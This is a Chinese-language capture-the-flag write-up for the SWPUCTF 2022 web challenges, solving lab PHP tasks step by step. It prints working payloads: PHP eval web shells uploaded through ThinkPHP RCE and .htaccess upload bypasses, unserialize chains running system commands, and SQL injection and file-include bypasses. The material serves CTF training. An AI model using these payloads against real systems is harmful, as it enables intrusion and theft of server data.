



# SWPUCTF 2022

## Web

### numgame

进入页面后是个文字游戏，题目为 `10+10=?` ，但是无论如何加减都不能改到 `20` 。

<figure><figcaption></figcaption></figure>

因此开始尝试 `F12` 打开开发者工具，但是不起作用，发现右键也被禁用了。下一步直接一把梭把 JavaScript 禁用了，禁用之后打开开发者工具，可以发现 `/js/1.js` ，其内容如下

```js
var input = $('input'),
    input_val = parseInt(input.val()),
    btn_add = $('.add'),
    btn_remove = $('.remove');

input.keyup(function() {
    input_val = parseInt(input.val())
});

btn_add.click(function(e) {
    input_val++;
    input.val(input_val);
    console.log(input_val);
    if(input_val==18){
        input_val=-20;
        input.val(-20);

    }
});

btn_remove.click(function(e) {
    input_val--;
    input.val(input_val);
});
// NSSCTF{TnNTY1RmLnBocA==}
```

对 `TnNTY1RmLnBocA==` 进行 Base64 解码可以得到 `NsScTf.php` ，访问 `NsScTf.php` 可以得到以下内容

```php
<?php
error_reporting(0);
//hint: 与get相似的另一种请求协议是什么呢
include("flag.php");
class nss{
    static function ctf(){
        include("./hint2.php");
    }
}
if(isset($_GET['p'])){
    if (preg_match("/n|c/m",$_GET['p'], $matches))
        die("no");
    call_user_func($_GET['p']);
}else{
    highlight_file(__FILE__);
}
```

通过提示可得知应该使用 `POST` 请求协议，由于 nss 类内函数 ctf 为静态函数，可以直接通过 `nss::ctf` 来调用。通过访问 `/hint2.php` 可以得知类名为 `nss2` ，因此通过构造 payload `p=nss2::ctf` 就可以得到 flag 了。

### ez\_ez\_php

```php
<?php
error_reporting(0);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 3) === "php" ) {
        echo "Nice!!!";
        include($_GET["file"]);
    } 

    else {
        echo "Hacker!!";
    }
}else {
    highlight_file(__FILE__);
}
//flag.php
```

Payload 如下

```
file=php/../flag.php
```

回显如下

```
Nice!!!NSSCTF{flag_is_not_here}
real_flag_is_in_'flag'
```

最终 Payload 如下

```
file=php/../flag
```

### ez\_ez\_php(revenge)

```php
<?php
error_reporting(0);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 3) === "php" ) {
        echo "Nice!!!";
        include($_GET["file"]);
    } 

    else {
        echo "Hacker!!";
    }
}else {
    highlight_file(__FILE__);
}
//flag.php
```

Payload 如下

```
file=php/../../../../../../flag
```

### ez\_rce

先来一波 Dirsearch

```bash
$ python dirsearch.py -u http://node1.anna.nssctf.cn:28559/
[20:22:00] 200 -   35B  - /.gitignore
[20:30:31] 200 -   18KB - /composer.lock
[20:30:31] 200 -  942B  - /composer.json
[20:39:07] 200 -   46B  - /robots.txt
[20:42:03] 200 -    0B  - /vendor/autoload.php
[20:42:04] 200 -    0B  - /vendor/composer/autoload_classmap.php
[20:42:04] 200 -    0B  - /vendor/composer/autoload_files.php
[20:42:04] 200 -    0B  - /vendor/composer/autoload_namespaces.php
[20:42:04] 200 -    0B  - /vendor/composer/autoload_real.php
[20:42:04] 200 -    0B  - /vendor/composer/ClassLoader.php
[20:42:04] 200 -    0B  - /vendor/composer/autoload_static.php
[20:42:04] 200 -   16KB - /vendor/composer/installed.json
[20:42:04] 200 -    1KB - /vendor/composer/LICENSE
[20:42:04] 200 -    0B  - /vendor/composer/autoload_psr4.php
```

`robots.txt` 内容如下

```
User-agent: *
Disallow:
  -  /NSS/index.php/
```

访问 `/NSS/index.php` 可以得到提示 `ThinkPHP` 。

<figure><figcaption></figcaption></figure>

通过 `ThinkPHP-Scan` 扫描一下。

```bash
$ python thinkphp_scan.py -url http://node1.anna.nssctf.cn:28559/NSS/index.php
[Info] > thinkphp_invoke_func_code_exec True
```

构造 Payload 如下以来传入 Shell

```
s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=<?php eval($_POST[1]);?>
```

通过蚁剑连接

```
http://node1.anna.nssctf.cn:28559/NSS/shell.php
```

连接后发现根目录的 `/flag` 是空的，发现 `nss` 文件夹，最后发现 flag 在 `/nss/ctf/flag/flag` 。

### 奇妙的MD5

在 Header 头可以看到 Hint 。

```
select * from 'admin' where password=md5($pass,true)
```

可以通过 `ffifdyop` 进行绕过，原因是 `ffifdyop` 经过 md5 加密后变成 `276f722736c95d99e921722cf9ed621c` ，再转换成字符串则变为 `'or'6É]™é!r,ùíb` 使得以上 SQL 语句变成了如下样子。

```
select * from 'admin' where password=''or'6É]™é!r,ùíb'
```

跳转后，得到源代码如下

```html
<!--
$x= $GET['x'];
$y = $_GET['y'];
if($x != $y && md5($x) == md5($y)){
    ;
-->
```

Payload 如下

```
x[]=1&y[]=2
```

可以得到以下代码

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['wqh']!==$_POST['dsy']&&md5($_POST['wqh'])===md5($_POST['dsy'])){
    echo $FLAG;
}
```

Payload 如下

```
wqh[]=1&dsy[]=2
```

就可以得到 flag 了。

### where\_am\_i

问题：什么东西是11位啊？

那就是需要找图上这个地方的电话号码。

http://www1.zmjd100.com/hotel/pc/1283140?checkIn=2023-07-26\&checkOut=2023-07-27

02886112888

### 1z\_unserialize

```php
<?php
class lyh{
    public $url = 'NSSCTF.com';
    public $lt;
    public $lly;
     
     function  __destruct()
     {
        $a = $this->lt;
        $a($this->lly);
     }
}
unserialize($_POST['nss']);
highlight_file(__FILE__);
?> 
```

构造序列化

```php
<?php
class lyh{
    public $url = 'NSSCTF.com';
    public $lt;
    public $lly;
     
     function  __destruct()
     {
        $a = $this->lt;
        $a($this->lly);
     }
}
$a = new lyh();
$a->lt = 'system';
$a->lly = 'ls /';
echo serialize($a);
// O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:4:"ls /";}
?> 
```

构造 Payload 如下

```
nss=O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:4:"ls /";}
```

回显如下

```
bin boot dev etc flag home lib lib64 media mnt opt proc root run run.sh sbin srv sys tmp usr var
```

构造 Payload 如下

```
nss=O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:9:"cat /flag";}
```

回显就是 flag 。

### ez\_ez\_unserialize

```php
<?php
class X
{
    public $x = __FILE__;
    function __construct($x)
    {
        $this->x = $x;
    }
    function __wakeup()
    {
        if ($this->x !== __FILE__) {
            $this->x = __FILE__;
        }
    }
    function __destruct()
    {
        highlight_file($this->x);
        //flag is in fllllllag.php
    }
}
if (isset($_REQUEST['x'])) {
    @unserialize($_REQUEST['x']);
} else {
    highlight_file(__FILE__);
}
```

这题需要 `__wakeup()` 魔术方法绕过，先构造序列化。

```php
<?php
class X
{
    public $x = __FILE__;
    function __construct($x)
    {
        $this->x = $x;
    }
    function __wakeup()
    {
        if ($this->x !== __FILE__) {
            $this->x = __FILE__;
        }
    }
    function __destruct()
    {
        highlight_file($this->x);
        //flag is in fllllllag.php
    }
}

$a = new X('./fllllllag.php');
echo serialize($a);
//O:1:"X":1:{s:1:"x";s:15:"./fllllllag.php";}
```

把对象属性个数修改一下绕过 `__wakeup()` 即可，构造 Payload 如下

```
x=O:1:"X":2:{s:1:"x";s:15:"./fllllllag.php";}
```

flag 就出来了。

### xff

Payload 如下

```
Referer: 127.0.0.1
X-Forwarded-For: 127.0.0.1
```

### js\_sign

```js
document.getElementsByTagName("button")[0].addEventListener("click", ()=>{
    flag="33 43 43 13 44 21 54 34 45 21 24 33 14 21 31 11 22 12 54 44 11 35 13 34 14 15"
    if (btoa(flag.value) == 'dGFwY29kZQ==') {
        alert("you got hint!!!");
    } else {
        alert("fuck off !!");
    }    
})
```

`dGFwY29kZQ==` 解码得到 `tapcode`

http://www.hiencode.com/tapcode.html

即可得到 flag 。

### ez\_sql

先探索下看看哪些被过滤了（

```
union, <空格>, and, or
```

构造 Payload 如下

```
nss=-1'/**/oorrder/**/by/**/1%23
nss=-1'/**/oorrder/**/by/**/2%23
nss=-1'/**/oorrder/**/by/**/3%23
nss=-1'/**/oorrder/**/by/**/4%23 # Unknown column '4' in 'order clause'
```

可以推断出字段有 3 行。

构造 Payload 如下

```
nss=2'/**/uniunionon/**/select/**/1,2,3%23 # 回显 2, 3
nss=2'/**/uniunionon/**/select/**/1,(database()),3%23 # 回显数据库名 NSS_db
nss=2'/**/uniunionon/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/infoorrmation_schema.tables/**/where/**/table_schema='NSS_db'),3%23 # 回显表名 NSS_tb, users
nss=2'/**/uniunionon/**/select/**/1,(select/**/group_concat(column_name)/**/from/**/infoorrmation_schema.columns/**/where/**/table_schema='NSS_db'),3%23 # 回显字段名 id, Secr3t, flll444g, id, username, password
nss=2'/**/uniunionon/**/select/**/1,(select/**/group_concat(flll444g)/**/from/**/NSS_tb),3%23 # 回显假flag(可恶啊)
nss=2'/**/uniunionon/**/select/**/1,(select/**/group_concat(Secr3t)/**/from/**/NSS_tb),3%23 # 回显真 flag
```

### webdog1\_\_start

查看源代码如下

```html
<!--
if (isset($_GET['web']))
{
    $first=$_GET['web'];
    if ($first==md5($first)) 
     
-->
```

看来是 md5 弱比较，构造 Payload 如下即可绕过。

```
web=0e215962017
```

查看 Header 头可以发现 Hint 如下

```
why not go to f14g.php first
```

然后又根据 Header 头发现 Hint

```
oh good job! but no flag ,come to F1l1l1l1l1lag.php
```

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if (isset($_GET['get'])){
    $get=$_GET['get'];
    if(!strstr($get," ")){
        $get = str_ireplace("flag", " ", $get);
        if (strlen($get)>18){
            die("This is too long.");
        }else{
            eval($get);
        } 
    }else {
        die("nonono"); 
    }
}
```

使用蚁剑通过

```
http://node2.anna.nssctf.cn:28412/F1l1l1l1l1lag.php?get=eval($_POST[1]);
```

连接一把梭就可以获得 flag 了。

### funny\_php

```php
<?php
    session_start();
    highlight_file(__FILE__);
    if(isset($_GET['num'])){
        if(strlen($_GET['num'])<=3&&$_GET['num']>999999999){
            echo ":D";
            $_SESSION['L1'] = 1;
        }else{
            echo ":C";
        }
    }
    if(isset($_GET['str'])){
        $str = preg_replace('/NSSCTF/',"",$_GET['str']);
        if($str === "NSSCTF"){
            echo "wow";
            $_SESSION['L2'] = 1;
        }else{
            echo $str;
        }
    }
    if(isset($_POST['md5_1'])&&isset($_POST['md5_2'])){
        if($_POST['md5_1']!==$_POST['md5_2']&&md5($_POST['md5_1'])==md5($_POST['md5_2'])){
            echo "Nice!";
            if(isset($_POST['md5_1'])&&isset($_POST['md5_2'])){
                if(is_string($_POST['md5_1'])&&is_string($_POST['md5_2'])){
                    echo "yoxi!";
                    $_SESSION['L3'] = 1;
                }else{
                    echo "X(";
                }
            }
        }else{
            echo "G";
            echo $_POST['md5_1']."\n".$_POST['md5_2'];
        }
    }
    if(isset($_SESSION['L1'])&&isset($_SESSION['L2'])&&isset($_SESSION['L3'])){
        include('flag.php');
        echo $flag;
    }
?>
```

* L1 - 通过科学计数法即可绕过，例如 `1e9` 。
* L2 - 双写即可绕过，即 `NSNSSCTFSCTF` 。
* L3 - MD5 强比较，通过 `s878926199a` 和 `s155964671a` 即可绕过。

Payload 如下

```
Param: num=1e9&str=NSNSSCTFSCTF
Body: md5_1=s878926199a&md5_2=s155964671a
```

### ez\_1zpop

```php
<?php
error_reporting(0);
class dxg {
   function fmm() {
      return "nonono";
   }
}

class lt {
   public $impo='hi';
   public $md51='weclome';
   public $md52='to NSS';
   function __construct() {
      $this->impo = new dxg;
   }
   function __wakeup() {
      $this->impo = new dxg;
      return $this->impo->fmm();
   }
   function __toString() {
      if (isset($this->impo) && md5($this->md51) == md5($this->md52) && $this->md51 != $this->md52)
         return $this->impo->fmm();
   }
   function __destruct() {
      echo $this;
   }
}

class fin {
   public $a;
   public $url = 'https://www.ctfer.vip';
   public $title;
   function fmm() {
      $b = $this->a;
      $b($this->title);
   }
}

if (isset($_GET['NSS'])) {
   $Data = unserialize($_GET['NSS']);
} else {
   highlight_file(__file__);
}
```

链子如下

```
lt(__construct())->lt(__destruct())->lt(__toString())->fin(fmm())
```

构造序列化如下

```php
<?php
class dxg {
   function fmm() {
      return "nonono";
   }
}

class lt {
   public $impo='hi';
   public $md51='weclome';
   public $md52='to NSS';
   function __construct() {
      $this->impo = new dxg;
   }
   function __wakeup() {
      $this->impo = new dxg;
      return $this->impo->fmm();
   }
   function __toString() {
      if (isset($this->impo) && md5($this->md51) == md5($this->md52) && $this->md51 != $this->md52)
         return $this->impo->fmm();
   }
   function __destruct() {
      echo $this;
   }
}

class fin {
   public $a;
   public $url = 'https://www.ctfer.vip';
   public $title;
   function fmm() {
      $b = $this->a;
      $b($this->title);
   }
}

$a = new lt();
$a->md51 = 's878926199a';
$a->md52 = 's155964671a';
$b = new fin();
$b->a = 'system';
$b->title = 'cat /flag';
$a->impo = $b;
echo serialize($a);
// O:2:"lt":3:{s:4:"impo";O:3:"fin":3:{s:1:"a";s:6:"system";s:3:"url";s:21:"https://www.ctfer.vip";s:5:"title";s:9:"cat /flag";}s:4:"md51";s:11:"s878926199a";s:4:"md52";s:11:"s155964671a";}
```

MD5 强比较，通过 `s878926199a` 和 `s155964671a` 即可绕过，把对象属性个数修改一下即可绕过 `__wakeup()` ，构造 Payload 如下（跳过 ls /）

```
NSS=O:2:"lt":4:{s:4:"impo";O:3:"fin":3:{s:1:"a";s:6:"system";s:3:"url";s:21:"https://www.ctfer.vip";s:5:"title";s:9:"cat /flag";}s:4:"md51";s:11:"s878926199a";s:4:"md52";s:11:"s155964671a";}
```

就可以得到 flag 了。

### funny\_web

```php
<?php
error_reporting(0);
header("Content-Type: text/html;charset=utf-8");
highlight_file(__FILE__);
include('flag.php');
if (isset($_GET['num'])) {
    $num = $_GET['num'];
    if ($num != '12345') {
        if (intval($num) == '12345') {
            echo $FLAG;
        }
    } else {
        echo "这为何相等又不相等";
    }
}
```

构造 Payload 如下

```
num=12345e
```

### Ez\_upload

```http
POST / HTTP/1.1
Content-Type: multipart/form-data; 

------WebKitFormBoundaryftTL5sWdr7SOXwI9
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: image/jpeg

<?php eval($_POST[1]); ?>
------WebKitFormBoundaryftTL5sWdr7SOXwI9
```

回显 `后缀名不能有ph!` ，尝试改成其他名称，换成 `.jpg` 回显 `还是换个其他类型吧` 。

先上传 `.htaccess`

```http
POST / HTTP/1.1
Content-Type: multipart/form-data; 

------WebKitFormBoundaryvAZiFGDxBICE1vwS
Content-Disposition: form-data; name="uploaded"; filename=".htaccess"
Content-Type: image/jpeg

<FilesMatch "jpg">
setHandler application/x-httpd-php
</FilesMatch>
------WebKitFormBoundaryvAZiFGDxBICE1vwS
```

回显 `/var/www/html/upload/5aca69d12f41e6e7c397787dcb501ac3/.htaccess succesfully uploaded!` ，之后上传图片马

```http
POST / HTTP/1.1
Content-Type: multipart/form-data; 

------WebKitFormBoundaryvAZiFGDxBICE1vwS
Content-Disposition: form-data; name="uploaded"; filename="1.jpg"
Content-Type: image/jpeg

<script language="php">eval($_POST[1]);</script>
------WebKitFormBoundaryvAZiFGDxBICE1vwS
```

回显 `/var/www/html/upload/5aca69d12f41e6e7c397787dcb501ac3/1.jpg succesfully uploaded!` ，用蚁剑一把梭发现 flag 根本不在根目录。

```http
POST / HTTP/1.1
Content-Type: multipart/form-data; 

------WebKitFormBoundaryvAZiFGDxBICE1vwS
Content-Disposition: form-data; name="uploaded"; filename="2.jpg"
Content-Type: image/jpeg

<script language="php">phpinfo();</script>
------WebKitFormBoundaryvAZiFGDxBICE1vwS
```

flag 就在 `phpinfo()` 里面。

### file\_master

图片必须是 `.jpg` 且规格最大不超过 `20*20` 。

`index.php` 源码如下

```php
<?php
    session_start();
    if(isset($_GET['filename'])){
        echo file_get_contents($_GET['filename']);
    }
    else if(isset($_FILES['file']['name'])){
        $whtie_list = array("image/jpeg");
        $filetype = $_FILES["file"]["type"];
        if(in_array($filetype,$whtie_list)){
            $img_info = @getimagesize($_FILES["file"]["tmp_name"]);
            if($img_info){
                if($img_info[0]<=20 && $img_info[1]<=20){
                    if(!is_dir("upload/".session_id())){
                        mkdir("upload/".session_id());
                    }
                    $save_path = "upload/".session_id()."/".$_FILES["file"]["name"];
                    move_uploaded_file($_FILES["file"]["tmp_name"],$save_path);
                    $content = file_get_contents($save_path);
                    if(preg_match("/php/i",$content)){
                        sleep(5);
                        @unlink($save_path);
                        die("hacker!!!");
                    }else{
                        echo "upload success!! upload/your_sessionid/your_filename";
                    }
                }else{
                    die("image hight and width must less than 20");
                }
            }else{
                die("invalid file head");
            }
        }else{
            die("invalid file type!image/jpeg only!!");
        }
    }else{
        echo '';
    }
?>
```

上传图片马，并修改后缀为 `.php` 。

<figure><figcaption></figcaption></figure>

通过访问

```
http://node1.anna.nssctf.cn:28157/upload/9b19628b659a4d6b0c83a8eed31c80c4/1234.php
```

可以得到目录

```
bin boot dev etc flag flag.sh home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var var
```

<figure><figcaption></figcaption></figure>

通过访问

```
http://node1.anna.nssctf.cn:28157/upload/9b19628b659a4d6b0c83a8eed31c80c4/1234.php
```

可以得到 flag 。
